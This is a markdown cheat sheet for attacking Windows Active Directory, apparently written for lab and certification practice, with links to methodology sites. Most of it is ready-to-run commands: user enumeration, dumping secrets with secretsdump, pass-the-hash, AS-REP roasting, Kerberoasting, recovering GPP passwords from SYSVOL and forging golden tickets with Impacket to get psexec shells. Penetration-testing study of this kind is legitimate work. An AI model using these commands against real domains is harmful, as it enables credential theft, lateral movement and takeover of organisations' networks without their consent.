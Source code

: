 # Cheat Sheet

## Initial Attack Vectors

### User Enumeration

### Brute Force

#### kerbrute

```bash
kerbrute userenum --dc <IP> -d <domain.local> users.txt
# Can verify working by placing known users in user.txt i.e. administrator, guest,
```

## Post-Compromise Enumeration

#### GetADUsers

Queries target domain for users data

```bash
GetADUsers.py -all -dc-ip <IP> active.htb/svc_tgs   # Will need account creds
```

#### secretsdump

Performs various techniques to dump secrets from the remote machine without executing any agent there.

```
secretsdump.py htb.local/<username>@<IP>
secretsdump.py htb.local/<username>:<password>@<IP>
# Grab the hashes then attempt to crack or pass the hash
# Pass the hash
crackmapexec smb <IP> -u administrator -H <hash>
# If Pwn3d!...
psexec.py -hashes <hash> administrator@<IP>
```

## Bloodhound

### Collection

#### SharpHound

```bash
/usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe
/usr/share/metasploit-framework/data/post/powershell/SharpHound.ps1
```

#### BloodHound.py

```bash
# Installation
pip3 install bloodhound
# Binary
bloodhound-python
# Command
bloodhound-python -u <username> -p <password> -ns <IP> -d <domain.local> -c All
# Copy json output file into Bloodhound
```

### Enumeration

#### Node Info

* Can search and select a specific user, machine, etc. where you can get details of it.
* Can right click on user in graph and mark as owned.
* Can right click on permission and click on Help.

#### Queries

* Find AS-REP Roastable Users (DontReqPreAuth)&#x20;
* Find Shortest Paths to Domain Admin
* Shortest Paths to Domain Admins from Owned Principals

## AS-REP Roasting

> Must have a username or list of usernames to perform

### GetNPUsers

```bash
# From Kali
GetNPUsers.py <domain.local>/<username> -dc-ip=<IP>
# Look "getting its TGT"
$krb5asrep$23$<username>@<domain.local>:12345...
# Then can attempt to brute force offline with John or Hashcat
```

## Kerberoasting

> Must have an already compromised account to authenticate with

### GetUserSPNs

```bash
# From Kali
GetUserSPNs -dc-ip <IP> <domain.local>/<compromised username>
# A list of accounts with SPNs should show along with the account name, etc.
GetUserSPNs -dc-ip <IP> <domain.local>/<compromised username> -request
# Look for the hash in the output
$krb5tgs$23$*<Username>$<domain.local$<domain.local>/<username*>$12345...
# Then can attempt to brute force offline with John or Hashcat
```

## GPP Credentials

> Must have an already compromised account to authenticate with

### Get-GPPPassword.ps1

```bash
# From Windows Target
findstr /S /I cpassword \\<domain.local>\sysvol\<domain.local>\policies\*.xml
# Look for the cpassword= value
cpassword="<value>"
# Then can attempt to decrypt them offline using PowerSploit's Get-GPPPassword.ps1
Get-GPPPassword
# Look for Password value output
```

## Silver Ticket

## Golden Ticket

### From Linux

#### Impacket

After dumping the hashes, we will use the `krbtgt` user and hash that was found.

```bash
# From Target: Get Domain SID via PowerShell cmdlet
Get-ADDomain htb.local  # Look for DomainSID
# From Kali
python ticket.py <nt-hash> -domain-sid <DomainSID> -domain htb.local <fake-username>
export KRB5CCNAME=<fake-username>.cache
# Then use psexec
psexec.py htb.local/<fake-username>@<IP> -k -no-pass  # Using IP
psexec.py htb.local/<fake-username>@<DOMAIN> -k -no-pass  # May need to user domain
# DEBUG
## Redo steps replaceing <fake-username> with administrator
# Can also try wmiexec, smbexec
```

#### Mimikatz

## Resources

#### Mind Maps

AD - [https://www.xmind.net/m/5dypm8/](https://www.xmind.net/m/5dypm8/)

General Enumeration - [https://www.xmind.net/m/QsNUEz/](https://www.xmind.net/m/QsNUEz/)

#### WADComs

[https://wadcoms.github.io/](https://wadcoms.github.io/)

#### Methodology

[https://book.hacktricks.xyz/windows/active-directory-methodology](https://book.hacktricks.xyz/windows/active-directory-methodology)

[https://www.thehacker.recipes/](https://www.thehacker.recipes/)

[https://www.ired.team/](https://www.ired.team/)

#### Resources

[https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

[https://zer1t0.gitlab.io/posts/attacking\_ad/](https://zer1t0.gitlab.io/posts/attacking\_ad/)

[https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

[https://github.com/61106960/adPEAS](https://github.com/61106960/adPEAS)

#### Writeups

[https://infosecwriteups.com/active-directory-penetration-testing-cheatsheet-5f45aa5b44ff](https://infosecwriteups.com/active-directory-penetration-testing-cheatsheet-5f45aa5b44ff)

[https://n0h4ts.medium.com/passing-the-new-oscp-b9fcd434ade7](https://n0h4ts.medium.com/passing-the-new-oscp-b9fcd434ade7)
